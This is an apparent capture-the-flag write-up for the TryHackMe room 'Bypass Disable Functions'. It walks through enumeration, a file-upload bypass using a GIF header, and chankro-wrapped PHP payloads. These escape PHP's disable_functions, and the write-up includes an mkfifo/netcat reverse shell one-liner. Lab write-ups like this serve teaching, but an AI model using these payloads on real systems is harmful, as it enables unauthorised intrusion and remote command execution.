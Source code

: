 ```yaml
---
clayout: ctf
title: Bypass Disable Functions
type: TryHackMe
date: 2025-09-25
level: Info
icon: /ctf/tryhackme/bypass-disable-functions/icon-room.png
image: /ctf/tryhackme/bypass-disable-functions/icon-room.png
description: Practice bypassing disabled dangerous features that run operating system commands or start processes.
ctf-link: https://tryhackme.com/room/bypassdisablefunctions
---
```


## Challenge Overview

This challenge focuses on bypassing PHP security restrictions, specifically the `disable_functions` directive that prevents execution of dangerous system commands.

## Enumeration

### Nmap Scan

```bash
nmap -sCV -A -oN nmap 10.10.208.58
```

**Scan Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Web Enumeration

Navigating to `http://10.10.208.58/` reveals a home page of Hot Jobs.

![Home Page](/ctf/tryhackme/bypass-disable-functions/home.png)

There is a `cv.php` endpoint that accepts an uploaded CV image.

![CV Upload](/ctf/tryhackme/bypass-disable-functions/cv-upload.png)

Directory enumeration with `gobuster` reveals additional entry points and an uploads directory we can interact with.

```bash
gobuster dir -u http://10.10.208.58/ \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt \
  -x php -o gobuster.txt
```

**Scan Results:**

```bash
/cv.php               (Status: 200) [Size: 4153]
/phpinfo.php          (Status: 200) [Size: 68160]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.208.58/uploads/]
```

The `/uploads` folder lists uploaded files; after using the `cv.php` upload we can see our file there.

![Uploaded file](/ctf/tryhackme/bypass-disable-functions/uploads.png)

### PHP Info

`/phpinfo.php` discloses configuration and environment details. Of particular interest:

* `DOCUMENT_ROOT` is `/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db`.
* `disable_functions` contains several disabled functions.

![Disable Functions](/ctf/tryhackme/bypass-disable-functions/disable-functions.png)

Those two facts drive the exploitation approach: the exposed `phpinfo()` gives filesystem locations and the uploads feature accepts files, while disabled PHP functions restrict direct use of some exec-style functions.

### Chankro - PoC

From `phpinfo.php` we confirm the document root:

![DOCUMENT_ROOT](/ctf/tryhackme/bypass-disable-functions/document-root.png)

Create a small shell script that writes the output of `whoami` to a file inside the uploads directory:

```bash
#!/bin/bash
whoami > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/whoami.txt
```

Use `chankro` to wrap the script into a PHP payload:

```bash
python2 chankro.py --arch 64 \
    --input whoami.sh \
    --output whoami.php \
    --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/
```

To bypass upload checks we prepend a GIF header (`GIF89a`) to the generated file so it is accepted as an image by the upload form. Upload the crafted file via `cv.php` and trigger it in a browser:

```url
http://10.10.208.58/uploads/whoami.php
```

The script runs and produces a `whoami.txt` showing the user under which the webserver executed commands.

![Whoami](/ctf/tryhackme/bypass-disable-functions/whoami.png)

This confirms remote command execution despite disabled PHP functions because execution is happening via an on-disk shell script invoked from the uploaded PHP wrapper.

### Chankro - Reverse Shell

Craft a reverse shell script:

```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <your-ip> 4444 >/tmp/f
```

Wrap it with chankro:

```bash
python2 chankro.py --arch 64 \
    --input reverse-shell.sh \
    --output reverse-shell.php \
    --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/
```

Start a listener on the attacker machine:

```bash
nc -lnvp 4444
```

Trigger the uploaded payload:

```url
http://10.10.208.58/uploads/reverse-shell.php
```

We obtain a shell as the webserver user.

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> [!IMPORTANT] Flag
> The `/home/s4vi/flag.txt` file contains the flag for this THM room.
